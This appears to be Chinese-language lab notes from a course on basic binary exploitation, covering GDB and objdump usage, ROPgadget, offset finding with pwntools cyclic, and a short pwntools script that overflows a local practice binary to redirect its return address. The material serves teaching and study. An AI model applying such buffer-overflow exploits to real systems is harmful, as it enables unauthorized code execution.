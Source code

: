 # Exploit
## Disassembly Tool - GDB
- 設定成 intel 版本
```
set disassembly-flavor intel

```
- 查看組語 / 反編譯
```
lay <asm/src>
```
- 常用參數介紹
    - `b <func>` 設定 Break point
    - `r` 開始執行
    - `ni` 執行下一個指令，如果是 func 直接執行完成
    - `si` 執行下一個指令，逐行執行 func 指令
    - `continue` 執行至斷點
    - `x/[Size Modifiers][Format]` 顯示記憶體資料
    - Size
        - b(byte)/1 byte (8-bit)
        - h(Halfword)/2 byte (16-bit)
        - w(Word)/4 byte (32-bit)
        - g(Giant Word)/8 byte(64-bit)
    - Format
        - o octal
        - x hexadecimal
        - b binary
        - s string
        - i 組合語言


## Disassembly Tool - objdump
- 看組語
```
objdump -d <binary>
```

## Find ROP
- **ROPgadget**
```
sudo -H python3 -m pip install ROPgadget
```
```
ROPgadget --binary <$binary> (--only <$command>)
```
## Finding Offset
- 找出 padding 長度
    - 通靈
        - 這部份我可能沒有
    - GDB
    - cyclic in pwntools

- 利用 cyclic 去產生連續字串
- ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/74ba82a5-1eb6-4da1-ab45-98afffa8ff10)
- 利用 gdb 去找長度
- ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/2882bab9-49b7-46af-8239-068e8003e749)
- 剛好 6c 就在 l
```
cyclic_find('laaa')
```
- return 位置就在 buf 後面 約 44 bytes

### Stack Alignment
- 在尋找 Return Address 的位置時可能會發現一些奇怪的地方
- 明明 Buf 大小就沒有設定那麼大，padding 為什麼那麼大
- 針對區域變數如果只有 1 byte 或不到 4 bytes 的資料對齊調整 (32 位元)

## Exploit
- objdump 查看函數位址
    - ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/9072e5a1-64f7-4bc9-b465-acb4904a4210)
    - ![image](https://github.com/wzray07/1112_LSA-Simply_Pwn_ROP/assets/77890790/a95bb480-cf34-40c2-b4a2-8e2ce461e87d)

- 寫 code 攻擊
```python=
from pwn import *

r = process("./pwn")

padding = (b"a"*44)
add = p32(0x080491c6)
r.sendline(padding+add)

## REF
> [GDB](https://ithelp.ithome.com.tw/articles/10227380)
> [ROP](https://tech-blog.cymetrics.io/posts/crystal/pwn-intro-2/)
